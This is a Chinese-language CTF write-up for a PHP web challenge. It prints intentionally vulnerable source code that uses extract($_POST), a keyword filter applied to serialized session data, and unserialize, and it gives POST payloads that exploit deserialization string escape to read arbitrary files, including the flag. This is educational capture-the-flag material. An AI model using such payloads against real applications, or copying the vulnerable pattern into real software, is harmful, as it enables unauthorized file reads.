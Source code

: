 ![](<./img/Pasted image 20221119110645.png>)

---
首页长这样

![](<./img/Pasted image 20221119110705.png>)

---
点开之后是源码
```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 
```

---
提示我们可能能在`phpinfo`中找到好东西
```php
/?f=phpinfo
```

![](<./img/Pasted image 20221119113417.png>)

果不其然发现了存放`flag`的文件名`

---
考虑到`filter`函数作用于序列化后的字符串

总体思路就是利用反序列化字符串逃逸使得`$userinfo['img']`结果为`base64_encode('d0g3_f1ag.php')`

部署到本地再加了两句

![](<./img/Pasted image 20221119212823.png>)
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:3:"abc";}
```
不得不吐槽php这语言各方面都好宽松QwQ

![](<./img/Pasted image 20221119212806.png>)

---
放靶机上跑去

url
```php
/?f=show_image
```
POST
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```
![](<./img/Pasted image 20221119213410.png>)

再来一步
```php
_SESSION[phpfl1g]=;s:3:"123";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```
![](<./img/Pasted image 20221119213746.png>)

#Web #PHP #反序列化 #字符串逃逸